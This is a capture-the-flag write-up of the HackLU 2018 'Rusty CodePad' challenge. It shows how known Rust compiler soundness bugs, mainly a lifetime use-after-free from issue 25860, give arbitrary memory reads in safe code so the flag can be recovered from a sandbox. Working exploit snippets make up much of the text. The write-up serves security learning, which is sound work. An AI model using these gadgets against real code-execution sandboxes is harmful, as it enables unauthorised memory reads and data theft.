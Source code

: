 ```yaml
---
title: HackLU 2018 Rusty CodePad
author: Avi Weinstock
date: 2018-10-18
categories: ctf-writeups
---
```


This is a writeup of the challenge "Rusty CodePad" from the HackLU cybersecurity capture the flag competition in 2018.
I originally posted this writeup at <https://ctftime.org/writeup/11859>

# Writeup

We initially tried submitting safe Rust that used the standard library's File object to read the flag. Sandwiching this in between `println!`'s showed that the process was silently dying after the first print, but before the second print, from which we inferred the existence of the seccomp filter. Attempting to use unsafe code to search the process's own address space was stymied by the presence of `-F unsafe_code` in the build script.

I then tried to find issues on Rust's issue tracker that were tagged "I-unsound", which are compiler bugs known to be able to violate memory safety in "safe" code.

<!--more-->

The first one I tried, <https://github.com/rust-lang/rust/issues/10184>, is an issue with casting a float to an integer and using it to index into an array: due to how LLVM handles float casts, this triggers undefined behavior, leading to LLVM mistakenly thinking that an obscenely large float is in-bounds and optimizing out the bounds check. The issue has a proof of concept in one of the posts:
```
#[inline(never)]
pub fn f(ary: &[u8; 5]) -> &[u8] {
    let idx = 1e100f64 as usize;
    &ary[idx..]
}

fn main() {
    println!("{}", f(&[1; 5])[0xdeadbeef]);
}
```
But unfortunately (for the purposes of exploitation) it panics in debug mode (which codepad uses) because the optimizer isn't invoked, so the bounds check is still there.

The next issue I tried, <https://github.com/rust-lang/rust/issues/27282>, required a bit of work to turn into an arbitrary read. The bug is that it's possible via an interaction of 3 different language features (guard clauses, lambdas, and reborrowing) to change the tag of a value in between the cases of a match statement. This causes an arm of the match statement to be executed with the wrong tag. The initial POC from the thread
```
fn main() {
    match Some(&4) {
        None => {},
        ref mut foo
            if {
                (|| { let bar = foo; bar.take() })();
                false
            } => {},
        Some(s) => println!("{}", *s)
    }
}
```
doesn't allow values to be cast, or arbitrary addresses to be read. If the value were a `Result` instead of an `Option`, this would be easy to weaponise; swapping the tag out on a `Result<A,B>` lets you cast an A to a B. `Result` doesn't have a direct equivalent of `Option::take`, but rewriting it to use a custom sum type and manually implementing `Option::take` gives insight into how to accomplish the cast despite that:
```
enum MyOption { MyNone, MySome(A) }
use MyOption::{MyNone, MySome};

impl MyOption {
    fn take(&mut self) -> Option {
        match ::std::mem::replace(self, MyNone) {
            MyNone => None,
            MySome(x) => Some(x),
        }
    }
}

fn main() {
    match MySome(&4) {
        MyNone => {},
        ref mut foo
            if {
               (|| { let bar = foo; bar.take() })();
               false
           } => {},
        MySome(s) => println!("{}", *s)
    }
}
```
`mem::replace` allows us to swap out the tag just like `Option::take`, and it works on `Result` as well. With this, we can forge a pointer (which is safe since it's not dereferenced as a pointer) to arbitrary memory, cast it to a reference using the bug, and dereference it (since references are guaranteed to point to valid memory in the absence of unsafe code/compiler bugs):
```
fn read_via_27282(addr: usize) -> u8 {
    let mut y = 4;
    let mut x : Result<&mut u8, *mut u8> = Ok(&mut y);
    match x {
        Err(_) => (),
        ref mut foo
            if {
                (|| { let bar = foo; let _err = ::std::mem::replace(bar, Err(addr as _)); })();
                false
            } => (),
        Ok(ref s) => {
            return **s;
        },
    }
    panic!("this is unreachable in release mode, but in debug mode, this gets hit");
}
```
Unfortunately, this also fails to work in debug mode (there's some weird fall-through behaviour instead).

Fortunately, the third issue I looked at, <https://github.com/rust-lang/rust/issues/25860>, does end up working in debug mode. The gadget from the issue has the signature `fn bad<'a, T>(x: &'a T) -> &'static T`, `'a` is an arbitrary lifetime, `'static` is the longest possible lifetime (e.g. the type of stuff in .data, that's never freed). `bad` is operationally the identity, so if you pass it something that gets freed at the end of a block (e.g. any RAII type that internally manages a heap allocation), it still does free it at runtime, but borrowcheck still thinks that the output is live (since it's `&'static` so it lives forever), so it lets you return the freed/dangling value from the block.

This allows us to read arbitrary memory by aliasing a Vec<u8>'s {pointer,capacity,length} fields to a heap-allocated triple of usize's:
```
static UNIT: &'static &'static () = &&();

fn foo<'a, 'b, T>(_: &'a &'b (), v: &'b T) -> &'a T { v }

fn bad<'a, T>(x: &'a T) -> &'static T {
    let f: fn(_, &'a T) -> &'static T = foo;
    f(UNIT, x)
}

fn inner() -> &'static Vec<u8> {
    let x = Box::new(Vec::new());
    bad(&*x)
}

let x = inner();
let mut y = Box::new((1usize, 2usize, 3usize));
println!("x: {:?} {} {}", x.as_ptr(), x.capacity(), x.len());

let mut r = |addr: usize| { y.0 = addr; x[0] };
```

Concurrently to my testing of the bugs, my teammate glenns found that a sample binary could be downloaded directly from the web interface via `wget https://arcade.fluxfingers.net:1814/cat/target/release/codepad` and reversed it to find that the flag was read into the heap as a pair of u32's, one of which was random, and the other of which was the same random value xor'd with the flag byte.

Combining this knowledge with the arbitrary read via the issue-25860 UAF, we scanned the heap backwards from a fresh allocation to find consecutive words that xor'd to printable ASCII, which yielded the flag.

The complete exploit code is available [on GitHub](https://github.com/aweinstock314/aweinstock-ctf-writeups/blob/80193b18b76822cb1eb1661e91961e11e1641855/hacklu_2018/rustycodepad/exploit_rustycodepad.rs).


